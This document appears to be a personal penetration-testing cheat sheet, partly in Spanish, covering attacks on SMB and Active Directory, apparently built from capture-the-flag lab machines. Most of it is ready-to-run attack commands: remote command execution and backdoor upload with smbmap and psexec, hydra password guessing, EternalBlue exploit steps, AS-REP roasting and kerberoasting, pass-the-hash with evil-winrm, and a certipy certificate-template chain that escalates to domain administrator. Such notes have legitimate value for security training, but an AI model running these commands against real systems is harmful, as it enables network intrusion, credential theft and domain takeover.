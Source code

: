 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
tag: ['windows', 'smb']
slug: vuln/smb
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target
```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: python2.7 zzz_exploit.py target

```bash
$nmblookup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

# rid -> 0x200
rpcclient -U "leo&micontraseña" 10.10.11.233 -c "querygroup 0x200"
######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

# Dictionary attack

hydra -l admin -P /usr/share/wordlist/rockyou.txt target smb

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

# users get by enum4linux

GetNPUsers.py user.local/ -dc-ip 10.10.10.161 -request
```

### Kerberos

```bash
# Ningunoi de estos kerberos sirce para cepas de hash
# AS-REP Roasting attack, el usuario que muestre tiene configurado UF_DONT_REQUIRE_PREAUTH
GetNPUsers.py domaindomain_name.local/ -no-pass -usersfile culos_validos.txt

# intentamos crackear el hash con jhon, si conseguimos el pass toca
# kerberoasting attack, SI TENEMOS CREDENCIALES VALIDAS
## request para coger el hash
GetUserSPN.py target.htb/leonardo # muestra si es kerberoasteable
GetUserSPN.py 'domain_name.local/username:password' -request

# no aplica psexec.py si cmp no pwnea el usuario, si no muetra nada smbmap

#desplegar un smbrelay y tratando de interceptar autenticacion a nivel red si el smb no esta firmado se puede tratar de coger la autenticacion de un usuario privs, es un hash a nivel de red no permite hacer cepas de hash o retocar el responder.conf indicadno las target.
# apt install bloodhound neo4j
neo4j console
# bloodhound para enumerar, detectar vias para escalar privs
bloodhound-python.py -c all -u 'culo' -p 'culo' -ns 10.10.10.10 -d domainname.local
bloodhound.py # De github
# pass de hash
cmp winrm doman -u 'culo' -H 'HASH'
# este usuario pertenece al grupo remote management users
evil-winrm -i domain -u 'culo'

```

### Rid brute force

```bash
crackmapexec smb target_ip -u anonymous -p '' --rid-brute 10000
```

### Active Directory (AD)

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'culo_torcido' -dc-ip target_ip

certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'culo_torcido' -dc-ip target_ip -enable-template 'SubCA'

certipy req -username raven@manager.htb -password 'culo_torcido' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

certipy ca -ca 'manager-DC01-CA' -issue-request 20 -username raven@manager.htb -password 'culo_torcido'

certipy req -username raven@manager.htb -password 'culo_torcido' -ca 'manager-DC01-CA' -target target_ip -retrieve 20


certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip target_ip

# sntp -sS manager.htb
# ntpdate target_ip
# rdate -n target_ip
# nos metemos con psexec y el hash repotado

```
